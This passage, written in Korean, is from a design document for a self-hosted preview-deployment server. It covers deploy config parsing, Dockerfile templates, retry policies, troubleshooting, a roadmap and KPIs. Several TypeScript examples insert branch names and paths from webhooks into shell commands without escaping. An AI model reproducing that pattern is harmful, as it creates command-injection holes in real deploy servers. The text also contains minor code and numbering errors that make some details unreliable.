프로젝트 루트에 `.deploy.yml` 파일을 배치하여 빌드 설정을 정의합니다.

#### 기본 구조

```yaml
# .deploy.yml
version: "1.0"

# 빌드 명령
build:
  command: "pnpm build"
  outputDir: "dist"
  packageManager: "pnpm" # pnpm, npm, yarn

# 환경 변수 (PR별로 다른 값 주입 가능)
env:
  NODE_ENV: "production"
  PUBLIC_API_URL: "https://api.devom.dev"

# Dockerfile 템플릿 선택
docker:
  template: "nginx" # nginx, node, custom
  port: 80

# 헬스 체크
healthCheck:
  path: "/"
  interval: 30
  timeout: 3
  retries: 3

# 리소스 제한
resources:
  memory: "512m"
  cpu: "0.5"
```

#### 지원되는 프로젝트 타입

**React (Vite)**:

```yaml
version: "1.0"
build:
  command: "pnpm build"
  outputDir: "dist"
  packageManager: "pnpm"
docker:
  template: "nginx"
  port: 80
```

**Next.js (Standalone)**:

```yaml
version: "1.0"
build:
  command: "pnpm build"
  outputDir: ".next"
  packageManager: "pnpm"
docker:
  template: "node" # Node.js 런타임 필요
  port: 3000
env:
  NODE_ENV: "production"
healthCheck:
  path: "/api/health"
```

**Custom Dockerfile**:

```yaml
version: "1.0"
build:
  command: "pnpm build"
  outputDir: "build"
docker:
  template: "custom"
  dockerfile: "./docker/Dockerfile.prod"
```

### 21.3 설정 파일 파싱

```typescript
// src/config/deploy-config.ts
import yaml from "yaml"
import fs from "fs/promises"
import path from "path"

interface DeployConfig {
  version: string
  build: {
    command: string
    outputDir: string
    packageManager: "pnpm" | "npm" | "yarn"
  }
  env?: Record<string, string>
  docker: {
    template: "nginx" | "node" | "custom"
    dockerfile?: string
    port: number
  }
  healthCheck?: {
    path: string
    interval: number
    timeout: number
    retries: number
  }
  resources?: {
    memory: string
    cpu: string
  }
}

async function loadDeployConfig(workDir: string): Promise<DeployConfig> {
  const configPath = path.join(workDir, ".deploy.yml")

  try {
    const content = await fs.readFile(configPath, "utf-8")
    const config = yaml.parse(content) as DeployConfig

    // 기본값 설정
    return {
      ...config,
      env: config.env || {},
      healthCheck: config.healthCheck || {
        path: "/",
        interval: 30,
        timeout: 3,
        retries: 3,
      },
      resources: config.resources || {
        memory: "512m",
        cpu: "0.5",
      },
    }
  } catch (error) {
    // .deploy.yml이 없으면 기본 설정 사용
    logger.warn(`No .deploy.yml found in ${workDir}, using defaults`)
    return getDefaultConfig()
  }
}

function getDefaultConfig(): DeployConfig {
  return {
    version: "1.0",
    build: {
      command: "pnpm build",
      outputDir: "dist",
      packageManager: "pnpm",
    },
    docker: {
      template: "nginx",
      port: 80,
    },
    healthCheck: {
      path: "/",
      interval: 30,
      timeout: 3,
      retries: 3,
    },
    resources: {
      memory: "512m",
      cpu: "0.5",
    },
  }
}
```

### 21.4 Dockerfile 템플릿 선택

```typescript
// src/docker/template-selector.ts
function selectDockerfileTemplate(config: DeployConfig, workDir: string): string {
  switch (config.docker.template) {
    case "nginx":
      return generateNginxDockerfile(config, workDir)

    case "node":
      return generateNodeDockerfile(config, workDir)

    case "custom":
      if (!config.docker.dockerfile) {
        throw new Error("Custom template requires dockerfile path")
      }
      return path.join(workDir, config.docker.dockerfile)

    default:
      throw new Error(`Unknown template: ${config.docker.template}`)
  }
}

function generateNginxDockerfile(config: DeployConfig, workDir: string): string {
  const template = `
FROM nginx:alpine

COPY ${config.build.outputDir} /usr/share/nginx/html
COPY nginx.conf /etc/nginx/conf.d/default.conf

EXPOSE ${config.docker.port}

HEALTHCHECK --interval=${config.healthCheck!.interval}s \\
  --timeout=${config.healthCheck!.timeout}s \\
  --retries=${config.healthCheck!.retries} \\
  CMD wget --quiet --tries=1 --spider http://localhost${config.healthCheck!.path} || exit 1

CMD ["nginx", "-g", "daemon off;"]
`

  const dockerfilePath = path.join(workDir, "Dockerfile.generated")
  fs.writeFileSync(dockerfilePath, template)
  return dockerfilePath
}
```

### 21.5 환경 변수 주입

```typescript
// PR별로 다른 환경 변수 주입
function injectEnvVariables(config: DeployConfig, prNumber?: number): Record<string, string> {
  const env = { ...config.env }

  if (prNumber) {
    // PR 프리뷰에는 스테이징 환경 사용
    env.PUBLIC_API_URL = `https://staging-api.devom.dev`
    env.DEPLOY_ENV = "preview"
  } else {
    // 브랜치 배포에는 프로덕션 환경
    env.DEPLOY_ENV = "production"
  }

  return env
}
```

### 21.6 검증 및 에러 처리

```typescript
function validateDeployConfig(config: DeployConfig): void {
  // 필수 필드 확인
  if (!config.build || !config.build.command) {
    throw new Error("build.command is required")
  }

  if (!config.build.outputDir) {
    throw new Error("build.outputDir is required")
  }

  // Docker 템플릿 검증
  const validTemplates = ["nginx", "node", "custom"]
  if (!validTemplates.includes(config.docker.template)) {
    throw new Error(`Invalid docker template: ${config.docker.template}`)
  }

  // Custom 템플릿 검증
  if (config.docker.template === "custom" && !config.docker.dockerfile) {
    throw new Error("docker.dockerfile is required for custom template")
  }

  // 리소스 제한 검증
  if (config.resources) {
    validateMemoryLimit(config.resources.memory)
    validateCpuLimit(config.resources.cpu)
  }
}

function validateMemoryLimit(memory: string): void {
  const regex = /^(\d+)(m|g|M|G)$/
  if (!regex.test(memory)) {
    throw new Error(`Invalid memory format: ${memory}. Use format like 512m or 2g`)
  }
}

function validateCpuLimit(cpu: string): void {
  const cpuValue = parseFloat(cpu)
  if (isNaN(cpuValue) || cpuValue <= 0 || cpuValue > 8) {
    throw new Error(`Invalid CPU limit: ${cpu}. Must be between 0 and 8`)
  }
}
```

---

## 20. 에러 핸들링 및 재시도 정책

### 20.1 개요

Deploy Server의 탄력성(Resilience)을 위해 명시적인 에러 핸들링과 재시도 정책이 필요합니다.

### 20.2 Webhook 재시도 정책

#### GitHub Webhook 재시도 동작

GitHub은 다음 상황에서 Webhook을 재시도합니다:

- 응답 시간 > 10초
- HTTP 5xx 에러
- 네트워크 연결 실패

**재시도 간격**: 지수 백오프 (exponential backoff)

- 1회: 즉시
- 2회: 1분 후
- 3회: 5분 후
- 최대 3회 시도

#### Deploy Server 응답 전략

```typescript
fastify.post("/webhook", async (request, reply) => {
  const signature = request.headers["x-hub-signature-256"]
  const deliveryId = request.headers["x-github-delivery"]

  try {
    // 1. 서명 검증
    if (!verifyWebhookSignature(request.rawBody, signature, SECRET)) {
      // 서명 불일치는 재시도 불필요 (악의적 요청)
      return reply.code(400).send({ error: "Invalid signature" })
    }

    // 2. 중복 체크
    if (await isDuplicateDelivery(deliveryId)) {
      // 중복 Webhook은 200 OK로 응답 (재시도 방지)
      return reply.code(200).send({ status: "duplicate", deliveryId })
    }

    // 3. 빌드 큐에 추가 (비동기)
    const buildId = await addToBuildQueue(request.body)

    // 4. 즉시 200 OK 응답 (10초 이내)
    return reply.code(200).send({
      status: "queued",
      buildId,
      deliveryId,
    })
  } catch (error) {
    logger.error("Webhook processing error", { error, deliveryId })

    // 일시적 에러는 500 응답 (GitHub이 재시도)
    if (isTemporaryError(error)) {
      return reply.code(500).send({ error: "Temporary error, will retry" })
    }

    // 영구적 에러는 400 응답 (재시도 불필요)
    return reply.code(400).send({ error: error.message })
  }
})

function isTemporaryError(error: Error): boolean {
  // 데이터베이스 연결 실패, 큐 서버 다운 등
  return error.message.includes("ECONNREFUSED") || error.message.includes("timeout") || error.message.includes("queue unavailable")
}
```

### 20.3 빌드 재시도 정책

#### Git Clone 재시도

```typescript
import pRetry from "p-retry"

async function cloneRepository(branch: string, workDir: string) {
  await pRetry(
    async () => {
      await execAsync(`git clone --depth 1 -b ${branch} ${REPO_SSH_URL} ${workDir}`)
    },
    {
      retries: 3,
      minTimeout: 1000,
      maxTimeout: 10000,
      onFailedAttempt: (error) => {
        logger.warn(`Git clone attempt ${error.attemptNumber} failed`, {
          branch,
          retriesLeft: error.retriesLeft,
          error: error.message,
        })
      },
    }
  )
}
```

#### pnpm install 재시도

```typescript
async function installDependencies(workDir: string) {
  await pRetry(
    async () => {
      await execAsync(`cd ${workDir} && pnpm install --frozen-lockfile`)
    },
    {
      retries: 2,
      minTimeout: 2000,
      onFailedAttempt: (error) => {
        // 네트워크 에러만 재시도
        if (!error.message.includes("ENOTFOUND") && !error.message.includes("ETIMEDOUT")) {
          throw new pRetry.AbortError("Non-network error, aborting")
        }
        logger.warn(`pnpm install attempt ${error.attemptNumber} failed`)
      },
    }
  )
}
```

#### 빌드 실패는 재시도하지 않음

```typescript
// 빌드 실패는 코드 문제이므로 재시도 불필요
async function buildProject(workDir: string) {
  try {
    await execAsync(`cd ${workDir} && pnpm build`, { timeout: BUILD_TIMEOUT })
  } catch (error) {
    // 빌드 실패 로그 저장 및 알림
    await saveBuildLog(workDir, error.stdout)
    await notifyBuildFailure(branch, commit, error.message)
    throw new BuildError("Build failed", { cause: error })
  }
}
```

### 20.4 Docker 작업 재시도

#### 이미지 빌드 재시도

```typescript
async function buildDockerImage(tag: string, context: string) {
  await pRetry(
    async () => {
      await docker.buildImage(
        {
          context,
          src: ["Dockerfile", "."],
        },
        { t: tag }
      )
    },
    {
      retries: 2,
      onFailedAttempt: (error) => {
        // Docker daemon 연결 실패만 재시도
        if (error.message.includes("ECONNREFUSED")) {
          logger.warn("Docker daemon connection failed, retrying...")
        } else {
          throw new pRetry.AbortError("Docker build error, aborting")
        }
      },
    }
  )
}
```

#### 컨테이너 시작 재시도

```typescript
async function startContainer(containerName: string, image: string) {
  await pRetry(
    async () => {
      const container = await docker.createContainer({
        name: containerName,
        Image: image,
        /* ... */
      })

      await container.start()

      // 헬스 체크
      const isHealthy = await waitForHealthy(container, 30000)
      if (!isHealthy) {
        throw new Error("Container failed health check")
      }
    },
    {
      retries: 2,
      minTimeout: 5000,
      onFailedAttempt: async (error) => {
        logger.warn(`Container start attempt ${error.attemptNumber} failed`)
        // 실패한 컨테이너 정리
        try {
          const container = docker.getContainer(containerName)
          await container.stop()
          await container.remove()
        } catch {}
      },
    }
  )
}
```

### 20.5 Traefik 라우팅 재시도

```typescript
async function verifyTraefikRouting(subdomain: string, maxRetries = 5) {
  for (let i = 0; i < maxRetries; i++) {
    try {
      const response = await fetch(`https://${subdomain}`, {
        timeout: 3000,
        redirect: "manual",
      })

      if (response.ok || response.status === 301) {
        logger.info(`Traefik routing verified for ${subdomain}`)
        return true
      }
    } catch (error) {
      logger.warn(`Traefik routing check ${i + 1}/${maxRetries} failed`, {
        subdomain,
        error: error.message,
      })
    }

    await sleep(2000) // 2초 대기
  }

  throw new Error(`Traefik routing failed for ${subdomain} after ${maxRetries} attempts`)
}
```

### 20.6 에러 분류 및 알림

```typescript
enum ErrorSeverity {
  LOW = "low", // 자동 복구 가능
  MEDIUM = "medium", // 재시도 후 복구 가능
  HIGH = "high", // 수동 개입 필요
  CRITICAL = "critical", // 시스템 장애
}

interface DeployError {
  code: string
  message: string
  severity: ErrorSeverity
  retryable: boolean
}

const ERROR_CATALOG: Record<string, DeployError> = {
  GIT_CLONE_FAILED: {
    code: "GIT_CLONE_FAILED",
    message: "Failed to clone repository",
    severity: ErrorSeverity.MEDIUM,
    retryable: true,
  },
  BUILD_FAILED: {
    code: "BUILD_FAILED",
    message: "Build command failed",
    severity: ErrorSeverity.LOW,
    retryable: false, // 코드 수정 필요
  },
  DOCKER_DAEMON_DOWN: {
    code: "DOCKER_DAEMON_DOWN",
    message: "Docker daemon is not responding",
    severity: ErrorSeverity.CRITICAL,
    retryable: true,
  },
  DISK_FULL: {
    code: "DISK_FULL",
    message: "Insufficient disk space",
    severity: ErrorSeverity.HIGH,
    retryable: false,
  },
}

async function handleBuildError(error: Error, context: BuildContext) {
  const deployError = classifyError(error)

  // 로그 저장
  await saveBuildLog(context, deployError)

  // 심각도에 따른 알림
  if (deployError.severity === ErrorSeverity.CRITICAL) {
    await notifyOncall(deployError)
  } else if (deployError.severity === ErrorSeverity.HIGH) {
    await notifySlack(deployError)
  }

  // GitHub Status API 업데이트
  await updateGitHubStatus(context, "failure", deployError.message)

  // 재시도 가능 여부 반환
  return deployError.retryable
}
```

---

## 21. 트러블슈팅

### 21.1 Webhook이 도착하지 않음

#### 증상

- GitHub에서 푸시했지만 배포가 시작되지 않음

#### 진단

1. **GitHub Webhook 설정 확인**:
   - Repository → Settings → Webhooks → Recent Deliveries
   - Response 탭에서 HTTP 상태 코드 확인

2. **서버 로그 확인**:

   ```bash
   pm2 logs deploy-server --lines 100
   ```

3. **방화벽 확인**:
   ```bash
   sudo ufw status
   sudo ufw allow 3000/tcp
   ```

#### 해결

- **서버 다운**: `pm2 restart deploy-server`
- **HMAC 불일치**: `.env`의 `GITHUB_WEBHOOK_SECRET` 확인
- **포트 개방**: 방화벽에서 포트 개방

---

### 21.2 빌드 실패

#### 증상

- 빌드 로그에 에러 발생

#### 진단

1. **빌드 로그 확인**:

   ```bash
   cat /srv/deploy-server/logs/feature-login/a1b2c3d.log
   ```

2. **일반적인 에러**:
   - `pnpm: command not found` → pnpm 미설치
   - `Permission denied` → 디렉토리 권한 문제
   - `Disk quota exceeded` → 디스크 공간 부족

#### 해결

```bash
# pnpm 설치
npm install -g pnpm

# 디렉토리 권한 수정
sudo chown -R $USER:$USER /srv/deploy-server

# 디스크 공간 확인
df -h
docker system prune -a
```

---

### 21.3 서브도메인 접근 불가

#### 증상

- 컨테이너는 실행 중이지만 `feature-login.devom.dev` 접근 시 404

#### 진단

1. **Traefik 로그 확인**:

   ```bash
   docker logs traefik | grep feature-login
   ```

2. **컨테이너 라벨 확인**:

   ```bash
   docker inspect feature-login | jq '.[0].Config.Labels'
   ```

3. **DNS 확인**:
   ```bash
   nslookup feature-login.devom.dev
   dig feature-login.devom.dev
   ```

#### 해결

- **DNS 미설정**: 와일드카드 A 레코드 추가 (`*.devom.dev → 서버 IP`)
- **라벨 누락**: 컨테이너 재시작 시 올바른 Traefik 라벨 포함
- **Traefik 재시작**: `docker restart traefik`

---

### 21.4 Docker 빌드 느림

#### 증상

- Docker 이미지 빌드에 5분 이상 소요

#### 진단

```bash
# BuildKit 활성화 확인
docker info | grep BuildKit

# 빌드 로그 상세 출력
docker build --progress=plain -t test:latest .
```

#### 해결

```bash
# BuildKit 활성화
export DOCKER_BUILDKIT=1

# 빌드 캐시 활용
docker build --cache-from feature-login:latest -t feature-login:new .

# 불필요한 이미지 삭제
docker system prune -a
```

---

### 21.5 메모리 부족

#### 증상

- 빌드 중 `Killed` 메시지 또는 서버 응답 없음

#### 진단

```bash
# 메모리 사용량 확인
free -h
docker stats --no-stream

# OOM Killer 로그
dmesg | grep -i kill
```

#### 해결

```bash
# 컨테이너 메모리 제한 설정
docker run --memory="512m" ...

# Swap 활성화
sudo fallocate -l 4G /swapfile
sudo chmod 600 /swapfile
sudo mkswap /swapfile
sudo swapon /swapfile

# 동시 빌드 수 제한
# .env
MAX_CONCURRENT_BUILDS=2
```

---

## 22. 제한사항 및 알려진 이슈

### 24.1 현재 제한사항

| 제한사항             | 설명                            | 해결 방법                           |
| -------------------- | ------------------------------- | ----------------------------------- |
| **단일 레포지토리**  | 현재는 하나의 레포지토리만 지원 | 멀티 레포지토리 지원 예정 (Phase 3) |
| **정적 사이트 전용** | SSR, 서버사이드 로직 미지원     | Node.js 런타임 컨테이너 지원 예정   |
| **빌드 타임아웃**    | 10분 초과 시 빌드 강제 종료     | 환경 변수로 조정 가능               |
| **동시 빌드 수**     | 기본 3개 제한                   | 서버 리소스에 따라 조정             |
| **SSL 인증서**       | Let's Encrypt 60일 제한         | Traefik 자동 갱신 (걱정 불필요)     |

---

### 24.2 알려진 이슈

#### 1. 브랜치명 특수문자 처리

**증상**: 브랜치명에 `/` 외 특수문자 사용 시 서브도메인 생성 실패

**예시**: `feature/login@v2` → `feature-login@v2.devom.dev` (유효하지 않은 도메인)

**임시 해결**:

```typescript
function normalizeBranchName(branch: string): string {
  return branch
    .replace(/^refs\/heads\//, "")
    .replace(/[^a-zA-Z0-9-]/g, "-")
    .toLowerCase()
}
```

**상태**: ✅ 수정됨 (v0.1.0)

---

#### 2. Concurrent Push 처리

**증상**: 동일 브랜치에 짧은 시간 내 여러 푸시 시 중복 빌드 발생

**예시**:

```bash
git push  # 빌드 1 시작
git push  # 빌드 2 시작 (불필요)
```

**임시 해결**: 빌드 큐에서 동일 브랜치 중복 체크

**상태**: ⏳ 해결 중 (Phase 2)

---

#### 3. Large Repository Clone

**증상**: 큰 레포지토리 클론 시 타임아웃

**예시**: 레포지토리 크기 > 1GB

**해결**:

```bash
# Shallow clone으로 완화
git clone --depth 1 --single-branch
```

**상태**: ✅ 수정됨 (shallow clone 기본 적용)

---

### 24.3 향후 개선 예정

- [ ] 멀티 레포지토리 지원
- [ ] 서버사이드 렌더링 (SSR) 지원
- [ ] 환경 변수 주입 (PR별 시크릿)
- [ ] 빌드 캐시 공유 (동일 의존성 재사용)
- [ ] Webhook 재시도 로직
- [ ] 웹 대시보드 (React 기반)

---

## 23. 구현 우선순위

### Phase 1: MVP (Minimum Viable Product)

**목표**: 기본적인 브랜치 배포 기능 구현

- [x] Fastify 서버 설정
- [ ] GitHub 웹훅 수신 및 검증
- [ ] Git Clone + pnpm build
- [ ] Docker 이미지 빌드 및 실행
- [ ] 수동 포트 할당 및 테스트
- [ ] 빌드 로그 저장

**완료 조건**:

- ✅ 브랜치 푸시 시 자동 빌드
- ✅ Docker 컨테이너 실행
- ✅ 로컬에서 `localhost:PORT` 접근 가능

**예상 소요 시간**: 2주

---

### Phase 2: 자동화

**목표**: 프로덕션 레벨 자동화

- [ ] Traefik 동적 라우팅 설정
- [ ] 서브도메인 자동 생성
- [ ] PR 프리뷰 환경 지원
- [ ] PR 종료 시 컨테이너 자동 제거
- [ ] 배포 상태 저장 (SQLite)
- [ ] 배포 상태 조회 API
- [ ] GitHub Status API 연동

**완료 조건**:

- ✅ 브랜치 푸시 시 `feature-login.devom.dev` 자동 생성
- ✅ PR 생성 시 `pr-123.devom.dev` 자동 생성
- ✅ PR 종료 시 자동 정리

**예상 소요 시간**: 3주

---

### Phase 3: 개선

**목표**: 사용자 경험 및 성능 최적화

- [ ] 빌드 캐시 최적화 (pnpm store, Docker layers)
- [ ] 병렬 빌드 지원 (빌드 큐 + 워커 풀)
- [ ] Slack/Discord 알림
- [ ] 웹 대시보드 (React + Vite)
  - 배포 목록 시각화
  - 빌드 로그 실시간 스트리밍
  - 배포 환경 수동 삭제
- [ ] 멀티 레포지토리 지원
- [ ] SSR 애플리케이션 지원 (Next.js standalone)
- [ ] 환경 변수 주입 (PR별 시크릿)

**예상 소요 시간**: 4주

---

### Phase 4: 고급 기능 (Optional)

- [ ] Kubernetes 지원
- [ ] Blue-Green 배포
- [ ] A/B 테스트 환경
- [ ] 성능 모니터링 (Prometheus + Grafana)
- [ ] 배포 승인 워크플로우 (Slack 통합)
- [ ] 롤백 기능

---

## 24. 성공 지표

### 24.1 핵심 KPI

| 지표                  | 목표    | 현재 | 측정 방법                |
| --------------------- | ------- | ---- | ------------------------ |
| **배포 소요 시간**    | < 3분   | -    | Webhook 수신 → 배포 완료 |
| **빌드 성공률**       | > 95%   | -    | 성공 빌드 / 전체 빌드    |
| **동시 배포 환경 수** | ≥ 10개  | -    | 실행 중인 컨테이너 수    |
| **가용성**            | > 99%   | -    | 월 단위 uptime           |
| **평균 응답 시간**    | < 200ms | -    | /webhook 엔드포인트      |

---

### 24.2 사용성 지표

| 지표                          | 목표 | 측정 방법                 |
| ----------------------------- | ---- | ------------------------- |
| **PR에 프리뷰 URL 자동 추가** | 100% | GitHub API 성공률         |
| **PR 종료 시 자동 정리**      | 100% | 정리 성공률               |
| **빌드 실패 알림**            | 100% | Slack/Discord 전송 성공률 |

---

### 24.3 비용 절감

**비교 대상**: Vercel Pro ($20/월/사용자)

| 항목                 | Vercel | Deploy Server    |
| -------------------- | ------ | ---------------- |
| **월 비용** (5명 팀) | $100   | $10 (VPS)        |
| **연 비용**          | $1,200 | $120             |
| **절감액**           | -      | **$1,080 (90%)** |

---

## 25. 참고 자료

### 25.1 공식 문서

- [GitHub Webhooks](https://docs.github.com/en/webhooks) - Webhook 이벤트 및 페이로드
- [Traefik Documentation](https://doc.traefik.io/traefik/) - 리버스 프록시 설정
- [Docker Documentation](https://docs.docker.com/) - 컨테이너 관리
- [Fastify Documentation](https://fastify.dev/) - 웹 프레임워크
- [pnpm Documentation](https://pnpm.io/) - 패키지 관리

---

### 25.2 영감을 받은 서비스

- [Vercel Preview Deployments](https://vercel.com/docs/deployments/preview-deployments)
- [Netlify Deploy Previews](https://docs.netlify.com/site-deploys/deploy-previews/)
- [Render Preview Environments](https://render.com/docs/preview-environments)
- [Railway PR Environments](https://docs.railway.app/deploy/deployments#pull-request-environments)

---

### 25.3 관련 오픈소스

- [Dokku](https://dokku.com/) - Docker 기반 PaaS
- [CapRover](https://caprover.com/) - 셀프 호스팅 PaaS
- [Coolify](https://coolify.io/) - 오픈소스 Heroku/Netlify 대안
- [Kamal](https://kamal-deploy.org/) - Rails 배포 도구

---

### 25.4 보안 참고

- [GitHub Webhook Security](https://docs.github.com/en/webhooks/using-webhooks/best-practices-for-using-webhooks)
- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [Let's Encrypt Documentation](https://letsencrypt.org/docs/)

---

## 26. 변경 이력

| 날짜       | 버전  | 작성자 | 변경 내용                                                                                                                          |
| ---------- | ----- | ------ | ---------------------------------------------------------------------------------------------------------------------------------- |
| 2025-01-XX | 0.1.0 | dabom  | 초안 작성                                                                                                                          |
| 2025-11-20 | 0.2.0 | dabom  | 개선된 PRD 작성 (목차, 기술 스택, 예시 시나리오, 제한사항 추가)                                                                    |
| 2025-11-20 | 0.3.0 | dabom  | 상세 기술 개선 (빌드 큐 아키텍처, SSH 키 주입, 빌드 격리, pnpm store 볼륨 구성, 빌드 환경 표준화, 에러 핸들링 및 재시도 정책 추가) |

---

## 라이선스

MIT License

---

## 기여

이 프로젝트는 학습 목적으로 제작되었습니다. 피드백과 제안은 언제나 환영합니다!

**컨택**: [GitHub Issues](https://github.com/dabom/devom/issues)

---

**마지막 업데이트**: 2025-11-20
